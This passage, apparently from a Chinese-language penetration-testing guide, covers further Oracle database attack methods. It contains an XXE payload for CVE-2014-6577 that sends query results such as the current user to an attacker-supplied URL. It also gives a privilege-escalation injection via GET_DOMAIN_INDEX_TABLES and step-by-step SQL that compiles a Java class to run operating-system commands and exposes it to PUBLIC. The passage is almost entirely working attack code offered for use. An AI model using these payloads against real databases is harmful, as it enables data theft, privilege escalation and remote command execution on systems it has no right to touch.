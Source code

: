 

## 其他攻击方式
### Oracle XXE
实际上是`CVE-2014-6577`，受影响的版本：`11.2.0.3`，`11.2.0.4`，`12.1.0.1` 和`12.1.0.2`
Oracle XXE 的效果和 UTL_http 的效果差不多，都是将数据传输到远端服务器上。但是，由于 extractvalue() 函数对所有数据库用户都可以使用，不存在权限的问题，所以当在低权限没有UTL_http 权限时，这个不失为一个好方法
```sql
select extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "you own url'||(SELECT user from dual)||'"> %remote;]>'),'/l') from dual
```
### Oracle 提权漏洞
原理是 GET_DOMAIN_INDEX_TABLES 函数的参数存在注入。而该函数的所有者是 sys，所以通过注入就可以执行任意 sql 语句。而该函数的执行权限为 public，所以只要遇到一个 Oracle 的注入点并且存在这个漏洞的，基本上都可以提升到最高权限。
```sql
select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES(
    '1',
    '1',
    'DBMS _OUTPUT".PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''your own payload'''';END;'';END;--',
    'SYS',
    0,
    '1',
    0
) from dual;
```
权限提升之后就可以做很多事了，因为 Oracle 可以执行 JAVA 代码，所以在提升权限后具体怎么操作，就看各自的 JAVA 水平了。
这里给出几种常见的利用方式（以下均为 your own payload 处的代码）：
#### 命令执行

1. 创建JAVA代码
```sql
create or replace and compile java source named "Command" as import java.io.*;public class Command{public static String exec(String cmd) throws Exception{String sb="";BufferedInputStream in = new BufferedInputStream(Runtime.getRuntime().exec(cmd).getInputStream());BufferedReader inBr = new BufferedReader(new InputStreamReader(in));String lineStr;while ((lineStr = inBr.readLine()) != null)sb+=lineStr+"\n";inBr.close();in.close();return sb;}}
```

2. 赋予代码执行权限
```sql
begin dbms_java.grant_permission( ''''''''PUBLIC'''''''', ''''''''SYS:java.io.FilePermission'''''''', ''''''''<<ALL FILES>>'''''''', ''''''''execute'''''''' );end;
```

3. 创建函数
```sql
create or replace function cmd(p_cmd in varchar2) return varchar2 as language java name ''''''''Command.exec(java.lang.String) return String'''''''';
```

4. 赋予函数执行权限
```sql
grant all on cmd to public
```
